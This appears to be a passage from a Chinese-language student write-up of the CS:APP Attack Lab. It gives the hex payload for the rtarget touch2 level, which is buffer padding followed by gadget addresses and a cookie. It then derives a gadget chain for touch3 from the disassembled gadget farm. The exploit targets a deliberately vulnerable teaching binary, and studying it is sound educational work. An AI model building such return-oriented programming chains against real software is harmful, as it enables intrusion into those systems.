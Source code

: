 因此最终代码为：

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 5b 55 55 55 55 00 00 14 13 e2 16 00 00 00 00 c4 5b 55 55 55 55 00 00 fc 59 55 55 55 55 00 00 

```c
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 //用56个字节覆盖掉%rsp
c0 5b 55 55 55 55 00 00 //popq %rax操作对应的地址
14 13 e2 16 00 00 00 00 //cookie的值
c4 5b 55 55 55 55 00 00 //movq %rax,%rdi操作对应的地址
fc 59 55 55 55 55 00 00 //touch2的地址
```

##### rtarget — touch3

类似上一题，用本关的的处理方法再做一遍ctarget中的touch3。在说明中提到本关需要用到8个指令，因此先提取start_farm到end_farm所有能用的指令（已省略retq对应的十六进制码）：

<img src="C:\Users\12875\AppData\Roaming\Typora\typora-user-images\1575985583145.png" alt="1575985583145" style="zoom:80%;" />

以及代码中本身就可能要用到的一条：

<img src="C:\Users\12875\AppData\Roaming\Typora\typora-user-images\1575985658261.png" alt="1575985658261" style="zoom:80%;" />

因为要将%rdi赋值为地址，lea操作必不可少，故可从` lea   (%rdi,%rsi,1),%rax` 倒推得到需要的代码，由此可知该条语句的下一句应为`movq %rax,%rdi`。现在开始向上倒推。

因为cookie是放在栈中的，因此%rdi应该是%rsp的首地址而%rsi应该是存放cookie的地址相对%rsp的偏移量。查询上图中的指令发现将%rdi赋值为%rsp的操作可由`movq %rsp,%rax`和`movq %rax,%rdi`来实现。而对于%rsi，与其有关的操作只有`movl %ecx,%esi`，在发现和%ecx有关的操作只有`movl %edx,%ecx`，进而推得`movl %eax,%edx`，根据touch2的经验可将%rax从栈中弹出来实现之后赋值的操作。因此汇编代码应为：

```
1c0e:       b8 48 89 e0 90          mov    $0x90e08948,%eax			movq %rsp,%rax
1bc2:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax		movq %rax,%rdi
1bbc:       b8 06 35 be 58          mov    $0x58be3506,%eax			popq %rax
%rax的值（cookie的偏移量）
1c5a:       8d 87 89 c2 c3 db       lea    -0x243c3d77(%rdi),%eax		movl %eax,%edx
1c7a:       8d 87 89 d1 08 db       lea    -0x24f72e77(%rdi),%eax		movl %edx,%ecx
1c74:       b8 89 ce 38 db          mov    $0xdb38ce89,%eax			movl %ecx,%esi
1bef:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
1bc2:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax		movq %rax,%rdi
```

又执行完最后一条语句后要跳转至touch3，因此cookie只能放在touch3对应的地址之后，因此代码更新为：

```
1c0e:       b8 48 89 e0 90          mov    $0x90e08948,%eax			movq %rsp,%rax
1bc2:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax		movq %rax,%rdi
1bbc:       b8 06 35 be 58          mov    $0x58be3506,%eax			popq %rax
%rax的值（cookie的偏移量）
1c5a:       8d 87 89 c2 c3 db       lea    -0x243c3d77(%rdi),%eax		movl %eax,%edx
1c7a:       8d 87 89 d1 08 db       lea    -0x24f72e77(%rdi),%eax		movl %edx,%ecx
1c74:       b8 89 ce 38 db          mov    $0xdb38ce89,%eax			movl %ecx,%esi
1bef:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
1bc2:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax		movq %rax,%rdi
touch3的地址
cookie对应的十六进制的字符串类型的值
```
